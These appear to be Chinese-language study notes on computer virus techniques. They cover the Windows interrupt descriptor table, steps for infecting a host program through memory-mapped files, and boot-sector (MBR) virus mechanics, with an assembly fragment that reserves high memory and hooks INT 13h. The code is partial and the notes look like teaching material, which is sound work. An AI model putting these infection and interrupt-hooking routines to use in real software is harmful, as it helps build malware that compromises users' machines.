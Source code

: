 在 Windows 系统中，中断向量表（Interrupt Vector Table，IVT）通常是指中断服务程序中的中断描述符表（Interrupt Descriptor Table，IDT）。

在系统启动时，Windows 内核会初始化 IDT 并为每个中断或异常分配⼀个 IDT Entry。这些 Entry 包含了中断处理程序的⼊⼝地址、特权级别、中断门等信息。当发⽣⼀个中断或异常时，CPU 会根据中断向量从 IDT 中找到对应的 IDT Entry，然后跳转到相应的中断处理程序的⼊⼝地址。

中断处理程序会根据中断类型执⾏相应的处理逻辑，⽐如与硬件设备通信、保存现场、处理异常情况等。处理完中断后，返回到被中断的任务或继续执⾏其他任务。

在 Windows 系统中，应⽤程序、驱动程序或操作系统本身可以通过注册中断处理程序的⽅式来处理特定的中断或异常事件。这样可以实现⾃定义的中断和异常处理逻辑。

## 内存映射文件

原理：内存映射⽂件提供了⼀组独⽴的函数，使应⽤程序能够通过内存指针像访问内存⼀样对磁盘上的⽂件进⾏访问。内存映射⽂件函数将磁盘上的⽂件的全部或者部分映射到进程虚拟地址空间的某个位置，以后对⽂件内容的访问就如同在该地址区域内直接对内存访问⼀样。

使⽤内存映射⽂件读写⽂件

1. 调⽤ CreateFile 函数打开想要映射的 HOST 程序，返回⽂件句柄 hFile。
2. 调⽤ CreateFileMapping 函数⽣成⼀个建⽴基于 HOST ⽂件句柄 hFile 的内存映射对象，返回内存映射对象句柄 hMap。
3. 调⽤ MapViewOfFile 函数将整个⽂件映射到内存中，得到指向内存的第⼀个字节的指针 pMem。
4. ⽤指针 pMem 对整个 HOST ⽂件进⾏操作，实施病毒感染。

## 引导型病毒

指专门感染主引导扇区和引导扇区的计算机病毒。感染主引导区的病毒称作 **MBR 病毒**；感染引导区的病毒称作 **DBR 病毒**。

==**引导型病毒的基本原理：**通过感染主引导扇区和引导扇区，在启动系统时即获取控制权。引导型病毒在感染主引导扇区/引导扇区时，将被感染扇区的“内容”写⼊其他扇区，并在 FAT 中标示该扇区所在簇为坏簇。为能在机器运⾏过程中能实施感染，通过修改内存⼤⼩，截取⾼端内存，实现常驻内存。==

MBR 病毒感染过程

1. BIOS 将带毒硬盘主引导区加载到内存 0:7C00 处。
2. 将 0:413 单元的值减少 1 KB。
3. 病毒复制到高端地址，修改 INT 13H 地址，指向病毒感染段，并保存原 INT 13H 地址。
4. 原引导区加载到内存 0:7C00 处。
5. 当系统/⽤户进⾏磁盘读写时调⽤ INT 13H，激活病毒。

```asm
; 复制病毒到内存高端
mov ax,ds:[413h] ;得到内存大小(0:413h单元存有以K计数的内存大小)
dec ax
dec ax
mov ds:[413h],ax ;将原内存大小减2K

;计算高端内存地址
mov cl,06	; 转换为段地址
shl ax,cl 
mov es,ax
xor di,di
mov si,sp
mov cx,VirusSize
cld
rep movsb ;把病毒搬移到高端地址里

; 跳转执行高地址病毒代码
push ax ; 保存高端段地址
mov di,OFF @@HighAddr
push di
retf ;跳到高端继续执行

; 替换中断13h向量
@@HighAddr:
cli ;修改中断向量前，最好关中断 
xchg ds:[13h*4+2],ax	; 保存原中断段地址
mov cs:[OldInt13Seg],ax
mov ax,OFF @@NewInt13
xchg ds:[13h*4],ax	; 替换偏移地址
mov cs:[OldInt13Off],ax ;修改中断13h
```